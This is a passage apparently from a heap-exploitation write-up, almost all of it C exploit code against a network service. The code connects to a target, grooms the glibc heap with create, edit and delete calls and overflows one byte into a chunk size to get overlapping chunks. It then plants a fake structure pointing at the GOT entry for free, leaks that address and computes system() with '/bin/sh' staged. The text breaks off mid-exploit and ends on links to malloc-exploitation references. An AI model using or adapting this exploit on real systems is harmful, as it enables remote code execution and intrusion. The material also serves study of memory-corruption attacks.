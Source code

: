 #define SYSOFFSET 0x3b160
 
#define COLOR_SHELL "\033[31;01mshell\033[00m > "
 
int  setsock(char *hostname, int port);
void send_data(char *input, int len);
void session();
int  handle_error(char *msg);
 
void agent_create_ex(char c, int len);
void agent_create(char *buffer, int len);
void agent_select(int agent);
void agent_show(int agent, char *buffer, size_t len);
void agent_edit(int agent, char *buffer, int len);
void agent_delete(int agent);
 
void select_option(char *opt);
 
struct fake_agent {
	unsigned long chunk_size;
	unsigned int  len;
	unsigned long reserved_0;
	unsigned long name;
	unsigned int  id;
};
 
int sock;
 
int main()
{
	unsigned long system, free;
	struct fake_agent agent;
	char output[1024], input[1024];
 
	printf("[1] connecting to target ...\n");
	sock = setsock(HOSTNAME, PORT);
	printf("[+] connected\n");
	read(sock, output, 1024);
 
	printf("[2] shaping heap\n");
	agent_create_ex('A', 0x88 - 1);
	agent_create_ex('B', 0x88 - 1);
	agent_delete(0);
	agent_create_ex('C', 0xa0 + 2);
	agent_create_ex('D', 0xa0 + 2);
	agent_create_ex('E', 0x10);
	agent_edit(4, "/bin/sh", 7);
 
	printf("[3] overflowing next chunk\n");
	agent_delete(2);
	memset(input, 'B', 0x88);
	input[0x88] = 0xf1;
	agent_edit(1, input, 0x88 + 1);
 
	printf("[4] overlapping next chunk\n");
	agent.chunk_size = 0xb1;
	agent.len = 0xff;
	agent.reserved_0 = 0xdeadbeef;
	agent.name = GOTFREE;
	agent.id = 3;
 
	memset(input, 'F', 0xa6);
	memcpy(input + 0xa6, &agent, sizeof(struct fake_agent));
	agent_create(input, 0xa6 + sizeof(struct fake_agent));
 
	agent_show(3, output, sizeof(output));
	free = *((unsigned long *)(output));
	printf("[+] free function mapped at 0x%"PRIx64"\n", free);
	system = free - SYSOFFSET;
 

[sploitfun]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[goichon]: http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
[tavis]: https://bugs.chromium.org/p/project-zero/issues/detail?id=96&redir=1
[blackngel]: http://phrack.org/issues/67/8.html#article